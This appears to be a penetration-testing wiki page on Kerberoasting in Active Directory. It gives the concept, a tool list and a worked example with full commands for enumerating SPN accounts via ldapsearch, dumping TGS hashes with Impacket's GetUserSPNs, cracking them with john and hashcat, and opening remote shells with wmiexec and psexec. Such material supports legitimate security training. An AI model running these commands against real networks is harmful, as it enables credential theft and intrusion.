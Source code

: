 # Kerberoasting

## Attack Description

Kerberoasting involves extracting a hash of the encrypted material from a Kerberos "Ticket Granting Service" ticket reply (TGS\_REP), which can be subjected to offline cracking in order to retrieve the plaintext password. This is possible because the TGS\_REP is encrypted using the NTLM password hash of the account in whose context the service instance is running.

![Kerberos Authentication process](../../.gitbook/assets/kerberos\_auth3.JPG)

Managed service accounts mitigate this risk, due to the complexity of their passwords, but they are not in active use in many environments. It is worth noting that shutting down the server hosting the service doesn’t mitigate this issue, as the attack doesn’t involve communication with the target service. It is therefore important to regularly audit the purpose and privilege of all enabled accounts. Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated with a particular service instance.&#x20;

## Attack Requirements

In order to complete this attack, we need to do the following, and so any tool that can assist with providing the following functionality can be used:

* Identify SPN accounts associated with a service instance
* Dump and crack the hash or hashes
* Connect to the target using the obtained creds

## Attack Tools

The list of tools below contains some of the tools that can be used for this attack. Note that some of the listed tools do the same thing, and so it's down to user preference as to which tools are used. Tools:

GetUserSPNs.py (Impacket) --> will try to find and fetch Service Principal Names that are associated with normal user accounts, and dump the associated TGS hash. Output is compatible with JtR and HashCat

ldapsearch --> Can be used to identify accounts that are configured with SPNs.

hashcat --> Crack the extracted hash.

john --> Crack the extracted hash.

wmiexec.py (Impacket) --> A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

psexec.py (Impacket) --> PSEXEC like functionality example using RemComSvc.&#x20;

## Attack Example

### Discovery

Find the Service Principle Names using ldapsearch:

```
ldapsearch -x -h 10.99.99.101 -p 389 -D 'srvcaccount' -w 'P@ssw0rd1' -b "dc=testdomain,dc=local" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname
```

Find the Service Principle Names and dump the hashes (requires a valid account on the domain) using GetUserSPNs:

```
GetUserSPNs.py -target-domain testdomain.local -usersfile users.txt -outputfile hashes2.txt -dc-ip 10.99.99.101 testdomain.local/srvcaccount:P@ssw0rd1
```

### Exploit

Crack the extracted hashes with john:

```
john --format:krb5tgs hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Crack the extracted hashes with hashcat:

```
hashcat -m 13100 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

Use the cracked hash and the corresponding username to connect to the target system using wmiexec.py:

```
wmiexec.py testdomain.local/administrator:Password1@dc1.testdomain.local
```

Use the cracked hash and the corresponding username to connect to the target system using psexec.py:

```
psexec.py testdomain.local/administrator:Password1@dc1.testdomain.local cmd.exe
```



## References

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.secureauth.com/labs/open-source-tools/impacket" %}

{% embed url="https://msrc-blog.microsoft.com/2014/05/13/ms14-025-an-update-for-group-policy-preferences" %}

{% embed url="https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30" %}

